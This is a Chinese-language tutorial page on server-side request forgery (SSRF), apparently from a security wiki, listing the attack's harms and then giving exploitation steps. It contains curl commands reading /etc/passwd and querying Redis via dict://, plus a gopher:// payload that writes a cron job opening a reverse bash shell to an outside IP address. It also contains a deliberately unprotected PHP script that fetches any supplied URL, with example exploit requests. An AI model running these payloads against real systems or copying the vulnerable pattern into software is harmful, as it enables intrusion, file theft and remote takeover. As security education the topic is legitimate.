


目录
SSRF¶
SSRF(Server-side Request Forge, 服务端请求伪造)
由攻击者构造的攻击链接传给服务端执行造成的漏洞，一般用来在外网探测或攻击内网服务
SSRF的危害:
扫内网
向内部任意主机的任意端口发送精心构造的Payload
DOS攻击（请求大文件，始终保持连接Keep-Alive Always）
攻击内网的web应用，主要是使用GET参数就可以实现的攻击（比如struts2，sqli等）
利用file协议读取本地文件等
本地漏洞利用¶
dict protocol (操作Redis):
$ curl -vvv 'dict://127.0.0.1:6379/info'
file protocol (任意文件读取):
$ curl -vvv 'file:///etc/passwd'
gopher protocol (一键反弹Bash):
# * 注意: 链接使用单引号，避免$变量问题
curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'
远程漏洞利用¶
实例1¶
漏洞代码testssrf.php:
// 未作任何SSRF防御
<?php
function curl($url){
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_exec($ch);
curl_close($ch);
}
$url = $_GET['url'];
curl($url);
?>
漏洞利用1-file协议读取文件:
请求url:
http://localhost/testssrf.php?url=file://C://folder/file.txt

漏洞利用1-dict协议查看端口开放:
请求url:
http://localhost/testssrf.php?url=dict://127.0.0.1:80
